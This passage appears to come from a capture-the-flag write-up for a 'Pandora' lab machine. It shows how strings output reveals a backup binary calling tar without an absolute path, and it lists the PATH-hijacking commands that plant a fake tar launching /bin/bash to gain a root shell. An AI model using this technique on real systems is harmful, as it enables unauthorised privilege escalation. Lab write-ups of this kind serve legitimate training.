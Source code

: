 
Now, Running strings on that bianry found 1 command, That this bianry is executing
```bash
tar -cvf /root/.backup/pandora-backup.tar.gz /var/www/pandora/pandora_console/*
```

Here we can exploit `tar` command absolute path as bianry is not using `tar` command absolute path

```bash
cd /tmp
echo "/bin/bash" > tar
chmod 777 tar
export PATH=/tmp:$PATH
/usr/bin/pandora_backup
```

![](/assets/img/posts/pandora/pandora-rooted.png)
